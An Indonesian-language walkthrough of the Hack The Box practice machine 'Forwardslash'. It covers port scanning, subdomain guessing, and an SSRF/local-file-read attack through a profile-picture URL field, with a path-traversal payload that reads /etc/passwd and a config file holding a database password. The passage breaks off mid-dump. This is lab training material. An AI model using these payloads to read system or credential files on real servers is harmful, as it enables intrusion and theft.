# Walkthrough Forwardslash HTB

## Prolog 

Assalamualaikum warahmatullahi wabarakatuh, Disituasi pandemic #COVID19 dan Bulan suci Ramadhan, Saya dan teman-teman di group discord yang isinya teman-teman `hacker` Dunia Maya saya hampir tiap malam sekarang Live untuk hacking mesin di `Hack The Box` (HTB). Kita mengerjakan mesin ini sama-sama, Berfikir bersama dan pusing bersama. Alasan saya menulis `WriteUp` / `Walkthrough` mesin `Forwardslash` ini adalah, Karena bagi saya pribadi mesin ini Sangat-sangat sulit, Kami semua harus membangkitkan Ilmu kanuragan dan perdukunan yang terpendam.

Kesulitan mesin ini secara pribadi terletak pada proses `reconnaissance` yang mana benar benar harus menggunakan `Super Common Wordlist` Untuk proses `Enumerasi` menemukan Jalan masuk ke Challenge sebenarnya. Sebenarnya kami/saya tidak terjebak dalam `Rabbit Hole` sehingga cukup lama mengerjakan mesin ini, Sekitar 4-5 Hari.

Kami terpaku ke hal-hal yang sifatnya sederhana, Namun saya/kami semua terlalu malas untuk memahami challenge ini sebenarnya ngapain. Di Pagi hari, Saat pikiran masih fresh saya sendirian membaca `Main` challengenya berupa binary dan akhirnya paham ini challenge maunya apa. Thanks to mas @kodok ngancani saya ngebuat exploitnya dan bertukar informasi.

## Stuktur dan Informasi Challenge

- URL Challenge	=> https://www.hackthebox.eu/home/machines/profile/239
- Base Point		=> 40
- IP Challenge	=> 10.10.10.183
- Days Old		=> 32 (Saat kita/saya solving -1 berati 31) (32 Saat menulis tulisan ini)

Dalam mesin/challenge ini, Terdapat 2 user linux sebagai main challenge (chiv dan pain), dan 1 web challenge sebagai jalan masuk menuju shell. Tempat mendapatkan Web Challenge kami nilai cukup lama 2 harian. Bukan karena sulit, Tapi karena cukup atau sangat `guessing`. Main challenge webnya saya kerjakan cukup mudah, Dengan common attack `Local File Read` dan sedikit `SSRF`.


# Proof of concept

## Reconnaissance

Penulis pertama-tama melakukan Scanning dengan menggunakan `nmap` untuk mengetahui informasi apa saja yang bisa didapatkan dari IP tersebut.

```sh
nmap -sV -A 10.10.10.183
```

Dan mendapatkan output sebagai berikut.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 10:03 SE Asia Standard Time
Nmap scan report for forwardslash.htb (10.10.10.183)
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 3c:3b:eb:54:96:81:1d:da:d7:96:c7:0f:b4:7e:e1:cf (RSA)
|   256 f6:b3:5f:a2:59:e3:1e:57:35:36:c3:fe:5e:3d:1f:66 (ECDSA)
|_  256 1b:de:b8:07:35:e8:18:2c:19:d8:cc:dd:77:9c:f2:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Backslash Gang
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/7%OT=22%CT=1%CU=33160%PV=Y%DS=2%DC=T%G=Y%TM=5EB37ADC
OS:%P=i686-pc-windows-windows)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54D
OS:ST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   120.00 ms 10.10.14.1
2   120.00 ms forwardslash.htb (10.10.10.183)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.07 seconds
```


Dalam hasil scanning di atas, Bisa dilihat hanya ada 2 port yang menjadi main challenge mesin ini.


1. 80 -> Port HTTP (Web Challenge)
2. 22 -> Port SSH


Dikarenakan port 80 sudah dipastikan Web Challenge, Maka langsungd dibuka di browser, Alamat IP nya. Namun tidak medapatkan respon apapun. Berikut hasil curl yang penulis lakukan.

```sh
curl 10.10.10.183 -vvv
```

Dan mendapatkan Output.

```
* Rebuilt URL to: 10.10.10.183/
*   Trying 10.10.10.183...
* TCP_NODELAY set
* Connected to 10.10.10.183 (10.10.10.183) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.183
> User-Agent: curl/7.55.1
> Accept: */*
>
< HTTP/1.1 302 Found
< Date: Thu, 07 May 2020 03:10:49 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Location: http://forwardslash.htb
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 10.10.10.183 left intact
```

Seperti terlihat, Mendapatkan respon code `302` Yang artinya `Redirect Found` Referensi bisa dibaca pada tautan [berikut](https://developer.mozilla.org/id/docs/Web/HTTP/Status). 

Jadi karena requests kita diarahkan ke `Location: http://forwardslash.htb` Sementara kita tidak mempunyai domain itu, Kita bisa melakukan binding host di Localhost kita. Dengan cara.

1. Windows -> `C:\Windows\System32\drivers\etc\hosts`
2. Linux   -> `/etc/host`

Kita cukup menambahkan host baru yang mengarah pada `forwardslash.htb` pada bagian bawah `hosts` file. Seperti di bawah ini contohnya.

```
10.10.10.183 forwardslash.htb
```

Setelah itu kita ping `forwardslash.htb` pastikan response ipnya adalah `10.10.10.183`

```sh
ping forwardslash.htb
```

Dan harus mendapatkan output seperti ini

```
Pinging forwardslash.htb [10.10.10.183] with 32 bytes of data:
Reply from 10.10.10.183: bytes=32 time=126ms TTL=63
Reply from 10.10.10.183: bytes=32 time=168ms TTL=63
Reply from 10.10.10.183: bytes=32 time=124ms TTL=63
Reply from 10.10.10.183: bytes=32 time=126ms TTL=63

Ping statistics for 10.10.10.183:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 124ms, Maximum = 168ms, Average = 136ms
```


### Tampilan web forwardslash.htb


Seperti ini tampilan web jika dibuka menggunakan browser. 




Web ini ceritanya terkena Deface, Setelah dilakukan CTL+U untuk membaca source codenya `Tidak Ada Hal Hal Menarik Apapun`.


#### Reconnaissance Web

Kami melakukan file dan dir scanning menggunakan alat alat berikut.

- Opendoor
- Dirsearch
- ffuf


Dengan menggunakan Common Wordlist dari masing masing aplikasi. `Tidak menghasilkan apapun`. Alias tidak ada dir/file yang berguna. Di sini lah letak stuck kami yang pertama, Saya coba berkali-kali tidak mendapatkan apapun. Di hari selanjutnya saya mencari-cari sebuah common wordlist, Lalu mencobanya lagi denga aplikasi ffuf.


```cmd
ffuf.exe -w ..\worldlist\common.txt -u "http://forwardslash.htb/FUZZ" -mc 200,403 -v
```

Lalu cukup shock mendapatkan result seperti berikut.

```
[Status: 200, Size: 281, Words: 20, Lines: 10]
| URL | http://forwardslash.htb/note.txt
    * FUZZ: note.txt
```

Seperti inilah jika `note.txt` dibuka menggunakan browser. Namun saya tampilkan dengan `curl` saja. Males SS hehe.


```sh
http://forwardslash.htb/note.txt
```

Mendapatkan response

```
Pain, we were hacked by some skids that call themselves the "Backslash Gang"... I know... That name...
Anyway I am just leaving this note here to say that we still have that backup site so we should be fine.

-chiv
```

Dari note yang ditinggalkan tersebut. Kita pasti sudah mengira, Bahwa kata yang harus disorot adalah `backup`. Dan mulai melakukan scanning dengan berfokus kata `backup`. Singkat cerita, Semua wordlist yang kami coba untuk scanning hal hal yang berkaitan dengan `backup` tidak menghasilkan apapun. Alias gak ada apapun di web `http://forwardslash.htb`. Karena stuck seperti biasa saya tinggal ini challenge untuk melakukan pekerjaan saya. Kebetulan pekerjaan saya melakukan setting subdomain, Dan tiba-tiba terfikir untuk membinding lagi subdomain `backup.forwardslash.htb` pada file `host`, Seperti berikut.


```
10.10.10.183 forwardslash.htb
10.10.10.183 backup.forwardslash.htb
```

Dan benar saya, Setelah `http://backup.forwardslash.htb` dibuka di browser. Hmmm mendapatkan respons valid beserta main challengenya. Hehe sumpah `guessing` banget. Berikut tampilannya.





Oke, Karena sudah menemukan main challengenya, Lakukan scanning, Dengan `dirsearch`. 

```sh
python3 dirsearch.py -u "http://backup.forwardslash.htb/login.php" -e php,html,xml,sql,txt
```


Dan mendapatkan hasil seperti berikut.

```
[10:51:20] 200 -    0B  - /config.php
[10:51:25] 301 -  332B  - /dev  ->  http://backup.forwardslash.htb/dev/
[10:51:25] 403 -   65B  - /dev/
[10:51:37] 302 -    1B  - /index.php  ->  login.php
[10:51:38] 302 -    1B  - /index.php/login/  ->  login.php
[10:51:43] 200 -    1KB - /login.php
[10:52:01] 200 -    1KB - /register.php
```

File, File yang ditemukan tersebut cukup penting untuk proses selanjutnya. Tapi mari kita lanjutkan prosesnya, Dengan mencoba setiap fitur web tersebut.

- Tampilan `register.php` 



Cukup register dengan username bebas dan password yang lebih dari 8 karakter.

- Tampilan setelah login



- Tampilan fitur `Reset Password` 



- Tampilan fitur `Reset Username` 



- Tampilan fitur `Change Photo Profile` 



- Tampilan fitur `Quick Message` 



Pesan yang sangat bagus teman teman!

- Tampilan fitur `Hall of Fame`




#### Exploting Web For Phun

Celah utamanya adalah pada fitur, `Change Photo Profile`. Dengan semua fitur terdisabled kita cukup bypass dengan `inspect element` dan menghilangkan `attribute` `disabled`.


- HTML Asli



- Setelah diedit




Karena fiturnya menerima inputan berupa `url` saya berinisiatif mencari sebuah `url gambar` valid, untuk dimasukan kedalam `form` tersebut.





Dan mengecheck reponse pada tab jaringan.


- Requests Body Post 




- Response URL




- Response Time




Pada response timing sangat lama `7 detik` Saya berasumsi, Fitur ini berjalan dengan menggunakan `curl` atau `file_get_contents` untuk melakukan requests ke url yang kita inputkan. Lalu saya mencoba melakukan semi automasi dengan menggunakan `curl`. Kita bisa langsung mencopy `curl` requests nya dari browser dengan cara ini, Thanks @laztname sudah diajari.




Seperti inilah hasil copy urlnya.


```sh
curl "http://backup.forwardslash.htb/profilepicture.php" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8" -H "Accept-Language: id,en-US;q=0.7,en;q=0.3" --compressed -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://backup.forwardslash.htb" -H "Connection: keep-alive" -H "Referer: http://backup.forwardslash.htb/profilepicture.php" -H "Cookie: PHPSESSID=f7j7mmjjk2php0nke28n38upr5" -H "Upgrade-Insecure-Requests: 1" --data "url=https"%"3A"%"2F"%"2Fcdn.idntimes.com"%"2Fcontent-images"%"2Fcommunity"%"2F2020"%"2F03"%"2F230556-0f1177963ba6ed033faf9a2152b5ae08_600x400.jpg"
```


Jika menggunakan windows cukup hilangkan flag `--compressed`. Pada bagian `--data` dengan parameter `url` kita bisa mengantinya dengan inputan semau kita, Karena memang tidak ada `csrf` token. Karena saya dari awal berasumsi, Ini fitur menggunakan `curl` atau `file_get_contents` maka saya memasukan parameter `url` dengan `index.php`. Berikut hasilnya.


- Request `index.php`

```sh
curl "http://backup.forwardslash.htb/profilepicture.php" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8" -H "Accept-Language: id,en-US;q=0.7,en;q=0.3" -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://backup.forwardslash.htb" -H "Connection: keep-alive" -H "Referer: http://backup.forwardslash.htb/profilepicture.php" -H "Cookie: PHPSESSID=f7j7mmjjk2php0nke28n38upr5" -H "Upgrade-Insecure-Requests: 1" --data "url=index.php"
```

- Response 

```
Permission Denied; not that way ;)
```


Hmmm sepertinya ada sebuah filter.

- Request `config.php`
- Response 

```php
<?php
//credentials for the temp db while we recover, had to backup old config, didn't want it getting compromised -pain
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'www-data');
define('DB_PASSWORD', '5iIwJX0C2nZiIhkLYE7n314VcKNx8uMkxfLvCTz2USGY180ocz3FQuVtdCy3dAgIMK3Y8XFZv9fBi6OwG6OYxoAVnhaQkm7r2ec');
define('DB_NAME', 'site');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

Hmmm Kok valid? Apakah memfilter sebuah nama_file? Mungkin saja. Karena ada sebuah credential, Saya mencoba login ssh, Hmm tetap saja tidak bisa. Lanjutkan enum. 


File file yang saya coba ambil dan mendapatkan response `Permission Denied; not that way ;)`

- login.php
- resetpassword.php
- resetpassword.php
- profilepicture.php
- index.php
- welcome.php

File file yang sukses saya ambil. 

- ../../../../../../../../../etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
